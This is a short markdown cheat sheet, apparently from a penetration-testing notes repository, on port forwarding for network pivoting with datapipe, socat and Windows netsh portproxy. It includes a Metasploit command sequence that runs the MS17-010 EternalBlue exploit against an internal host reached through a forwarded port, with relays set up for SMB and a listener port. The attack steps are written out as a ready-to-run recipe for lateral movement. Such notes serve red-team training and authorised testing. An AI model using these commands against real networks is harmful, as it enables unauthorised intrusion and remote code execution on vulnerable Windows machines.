 Port forwarding
===
🔙 [MENU README](./Pivot%20&%20Double%20Pivot.md)


# Datapipe
> single bin, simple function
> 輕薄短小

![](./Datapipe.png)
```bash
# https://github.com/bovine/datapipe/blob/master/datapipe.c
# change Line 80: 20 to 999  MAXCLIENTS 999
gcc datapipe.c -o datapipe
```
```bash
datapipe 0.0.0.0 135 192.168.0.7 135
datapipe 0.0.0.0 445 192.168.0.7 445
datapipe 0.0.0.0 4444 172.19.19.18 4444
```
MS17_010
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 172.19.19.70
set lhost 192.168.0.70
check
exploit
```

# Socat
> full function, fat, support UDP
> 最有名的Port Forward，但很肥

```bash
socat tcp-listen:80,fork     tcp:<IP>:80
socat udp-recvfrom:161,fork  udp-sendto:<IP>:161
socat udp-recvfrom:53,fork   udp-sendto:<IP>:53
socat udp-recvfrom:123,fork  udp-sendto:<IP>:123
```

# Portproxy
> Windows netsh built-in
> Windows內建 
> 需要是本機管理權限

```bash
netsh interface portproxy add    v4tov4 8888 <IP> 80
netsh interface portproxy show   v4tov4
netsh interface portproxy delete v4tov4 8888 <IP> 80

# 127.0.0.1:8888
```